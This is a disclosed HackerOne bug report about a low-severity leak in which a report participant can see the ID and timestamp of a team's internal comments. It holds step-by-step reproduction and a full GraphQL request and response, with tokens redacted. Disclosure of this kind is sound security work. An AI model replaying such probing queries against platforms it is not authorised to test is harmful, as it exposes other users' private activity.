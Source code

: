 # latest_activity_id and latest_activity_at may disclose information about internal activities to unauthorized users

## Report Details
- **Report ID**: 724944
- **URL**: https://hackerone.com/reports/724944
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-10-29T18:00:21.828Z
- **Disclosed**: 2019-11-10T09:54:44.167Z

## Reporter
- **Username**: egrep
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
Mini information disclosure related with team's internal comments/assign group activity id and date_time are exposed

Steps:
1) As victim, Create a sandbox team and create report
2) Add attacker as a participant for the report
3) As victim, create some internal comments ( team -only comments )/assign group for the report
4) As attacker , request url "https://hackerone.com/reports/<report-id>.json" ( Eg: ███ ) to view latest_activity_id (█████)
5) As attacker, post below graphql request to view "latest_activity_at" date-time of internal discussion ( ██████ )

Request:

```
POST /graphql? HTTP/1.1
Host: hackerone.com
Connection: close
Content-Length: 123
Accept: */*
X-Auth-Token: ███
Origin: https://hackerone.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Sec-Fetch-Mode: cors
Content-Type: application/json
Sec-Fetch-Site: same-origin
Referer: https://hackerone.com/vairaselvamvvs
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: ███

{"query":"query { node(id: \"gid://hackerone/Report/█████\") { ... on Report { _id,latest_activity_at }}}","variables":{}}
```

Response:

```
HTTP/1.1 200 OK
Date: Tue, 29 Oct 2019 17:50:48 GMT
Content-Type: application/json; charset=utf-8
Connection: close
Cache-Control: no-cache, no-store
Content-Disposition: inline; filename="response."
X-Request-Id: eb31d77a-6b54-4bcb-8007-c90f0b19307d
Set-Cookie: ███
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Expect-CT: enforce, max-age=86400
Content-Security-Policy: default-src 'none'; base-uri 'self'; block-all-mixed-content; child-src www.youtube-nocookie.com b5s.hackerone-ext-content.com; connect-src 'self' www.google-analytics.com errors.hackerone.net; font-src 'self'; form-action 'self'; frame-ancestors 'none'; img-src 'self' data: cover-photos.hackerone-user-content.com hackathon-photos.hackerone-user-content.com profile-photos.hackerone-user-content.com hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com; media-src 'self' hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com; script-src 'self' www.google-analytics.com; style-src 'self' 'unsafe-inline'; report-uri https://errors.hackerone.net/api/30/csp-report/?sentry_key=61c1e2f50d21487c97a071737701f598
Referrer-Policy: strict-origin-when-cross-origin
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Frame-Options: DENY
X-Permitted-Cross-Domain-Policies: none
X-XSS-Protection: 1; mode=block
CF-Cache-Status: DYNAMIC
Server: cloudflare
CF-RAY: 52d6fe6eed5dd5fc-BOM
Content-Length: 82

{"data":{"node":{"_id":"████████","latest_activity_at":"███████"}}}
```

## Impact

latest_activity_id and latest_activity_at related with team internal discussion exposed

## Attachments
No attachments
